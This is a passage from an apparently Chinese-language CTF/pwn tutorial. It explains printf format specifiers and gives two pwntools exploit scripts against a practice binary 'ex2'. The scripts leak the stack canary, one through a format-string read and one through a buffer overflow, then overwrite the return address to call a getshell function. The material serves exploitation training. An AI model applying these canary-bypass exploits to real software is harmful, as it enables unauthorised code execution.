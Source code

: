 | 符号 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| %p   | 将对应参数解析为地址输出                                     |
| %K$p | 将更改对应顺序，与格式化字符串后的第K个参数进行对应，并以地址形式解析参数值 |
| %K$n | 将于格式化字符串后的第K个参数进行对应，将参数解析为一个地址，并取消此次输出，而将已经输出的字节长度写入获取的地址 |

#### **EXP**

```python
from pwn import *
  
io = process("./ex2")
e = ELF("./ex2")
vuln_addr = e.sym["vuln"]
getshell_addr = e.sym["getshell"]
payload1 = "%31$08x"     # 注意为什么是31，和为什么输出长度为8

io.recvuntil("Hello Hacker!\n")
#pause()
io.sendline(payload1)

Canary = int(io.recv(8),16)
print(hex(Canary))
print("-------------")

Canary_offset = 100
ret_offset = 12

payload2 = Canary_offset*b'A' + p32(Canary) + ret_offset*b'A' + p32(getshell_addr)

io.sendline(payload2)
io.interactive()

```

​		在格式化字符串输出，两者差值难以计算，而是要运行到`printf`函数时，栈顶与我们想要的值差距来实现，其单位为4字节，所以 31实际是指他们相聚 31*4个字节；因为地址的取出以字符型，32位地址长度位4字节，但字符长度却是8个。



### 溢出泄露Canary

#### EXP

```python

from pwn import *
  
context.binary = 'ex2'
#context.log_level = 'debug'
io = process("./ex2")

e = ELF("./ex2")
getshell_addr = e.sym["getshell"]
io.recvuntil("Hello Hacker!\n")
payload1 ="A"*100    #100个字符和换行符；换行符覆盖了Canary字符串的\x00截断符号，使其输出
io.sendline(payload1)
io.recvuntil("A"*100)
Canary =u32(io.recv(4)) - 0xa 
log.info("Canary:"+hex(Canary))  #打印Canary

payload2 = 100*b"A" +p32(Canary) + 12*b'A' + p32(getshell_addr)

io.sendline(payload2)
```